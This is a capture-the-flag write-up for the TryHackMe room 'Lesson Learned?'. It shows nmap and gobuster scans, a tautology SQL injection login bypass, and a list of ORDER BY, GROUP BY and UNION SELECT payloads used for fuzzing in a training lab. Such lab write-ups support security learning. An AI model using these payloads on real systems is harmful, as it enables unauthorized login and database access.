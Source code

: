 # Lesson Learned?

**Room Link:** [https://tryhackme.com/room/lessonlearned](https://tryhackme.com/room/lessonlearned)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (10).png" alt=""><figcaption></figcaption></figure>





**Browser**

<figure><img src="../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (11).png" alt=""><figcaption></figcaption></figure>

## Option #1&#x20;

Used this page to collect possible injections

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
```

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>



Add list above as payload in position 1 and 2

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Username: 1' UNION SELECT null-- -
Password: 1' GROUP BY 2--+
```



<figure><img src="../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

